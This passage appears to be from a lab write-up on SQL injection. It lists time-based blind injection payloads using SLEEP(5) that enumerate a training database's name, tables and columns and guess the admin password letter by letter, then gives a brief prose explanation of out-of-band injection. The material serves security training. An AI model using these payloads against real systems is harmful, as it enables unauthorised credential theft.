 ![](https://i.imgur.com/Vf7RcxW.png)

## Number of columns in a table

```sql
admin123' UNION SELECT SLEEP(5);--
```


## DATABASE

```sql
admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```

## TABLES

```sql
admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

## COLUMNS

```sql
admin123' UNION SELECT SLEEP(5),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```

## DATA

```sql
admin123' UNION SELECT SLEEP(5),2 from users where username like 'a%
admin123' UNION SELECT SLEEP(5),2 from users where username='admin' and password like 'a%
```

![](https://i.imgur.com/zhmaKWZ.png)


## Level 4 :

## Out-of-Band SQL Injection

> Out-of-Band SQL Injection isn't as common as it either depends on specific features being enabled on the database server or the web application's business logic, which makes some kind of external network call based on the results from an SQL query.

An Out-Of-Band attack is classified by having two different communication channels, one to launch the attack and the other to gather the results. For example, the attack channel could be a web request, and the data gathering channel could be monitoring HTTP/DNS requests made to a service you control.
